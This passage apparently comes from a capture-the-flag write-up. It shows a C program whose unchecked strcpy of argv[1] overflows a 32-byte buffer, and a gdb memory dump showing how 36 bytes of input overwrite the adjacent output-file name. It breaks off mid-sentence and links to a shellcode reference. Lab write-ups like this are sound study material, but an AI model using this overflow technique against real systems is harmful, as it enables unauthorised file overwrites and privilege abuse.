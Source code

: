         /* open files */
        strcpy(ifile, argv[1]);
        if((ofd = open(ofile,O_RDWR)) < 0 ){
            printf("error opening %s\n", ofile);
            exit(-1);
        }

        if((ifd = open(ifile, O_RDONLY)) < 0 ){
            printf("error opening %s\n", ifile);
            exit(-1);
        }

        /* copy from file1 to file2 */
        read(ifd, buf, sizeof(buf)-1);
        write(ofd,buf, sizeof(buf)-1);
        printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

        /* close 'em */
        close(ifd);
        close(ofd);
        exit(1);

    }

The vulnerability lies in the `strcpy` call where argv[1] is copied unfiltered
and without length checks in the variable `ifile`, which has length 32 bytes.
After inspecting with gdb, one can actually figure out what is happening when 
we overflow this buffer with 31 `A`s.

    Breakpoint 3, 0x0804921a in main ()
    (gdb) x/32wx $esp 
    0xffffd218:	0xffffd240	0xffffd4d9	0xf7ffcfe8	0x00000018
    0xffffd228:	0x00000000	0xffffdfe8	0xf7fc7570	0xf7fc7000
    0xffffd238:	0x00000000	0x00000000	0x41414141	0x41414141
    0xffffd248:	0x41414141	0x41414141	0x41414141	0x41414141
    0xffffd258:	0x41414141	0x00414141	0x7665642f	0x6c756e2f
    0xffffd268:	0x0000006c	0x00000000	0x00000000	0x00000000
    0xffffd278:	0x00000000	0xf7da1cb9	0x00000002	0xffffd334
    0xffffd288:	0xffffd340	0xffffd2a0	0xf7fade34	0x080490dd
    (gdb) x $ebp 
    0xffffd278:	0x00000000
    (gdb) x/s $ebp-0x38  
    0xffffd240:	'A' <repeats 31 times>
    (gdb) x/s $ebp-0x18  
    0xffffd260:	"/dev/null"

The string `/dev/null` which is the output file of the contents of argv[1], is 
located in memory right after the attacker controlled input. This urges the attacker
to provide an input of 36 bytes, overwriting the output file, which he/she could 
control.

After creating a temporaty test file for the output under /tmp inside the server, 
and running the binary with the `strace` tool for tracing all the system calls and 
with argv[1] to be equal to the attacker input, one can see from the snippet below, 


[REF_1]: http://shell-storm.org/shellcode/files/shellcode-607.html
[REF_2]: https://security.stackexchange.com/questions/184842/shellcode-does-not-execute-as-the-owner
[REF_3]: https://nicolagatta.blogspot.com/2019/05/overthewireorg-narnia-level-2-writeup.html